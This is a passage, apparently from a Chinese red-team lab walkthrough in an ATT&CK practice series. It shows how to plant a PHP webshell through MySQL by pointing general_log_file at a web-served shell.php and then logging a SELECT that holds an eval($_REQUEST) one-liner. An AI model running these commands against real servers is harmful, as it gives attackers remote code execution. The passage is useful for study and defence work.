 ![image-20231116221634860](./ATT&CK%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97%E2%80%94%E2%80%94%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%EF%BC%88%E4%B8%80%EF%BC%89.assets/image-20231116221634860.png)

可以通过`general_log_file`指定为一个`php`后缀的文件，来写查询语句

```sql
set global general_log_file="C:\\phpstudy\\www\\shell.php";
```

```sql
select "<?php  @eval($_REQUEST[6868])?>";
```

![image-20231116221953362](./ATT&CK%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97%E2%80%94%E2%80%94%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%EF%BC%88%E4%B8%80%EF%BC%89.assets/image-20231116221953362.png)
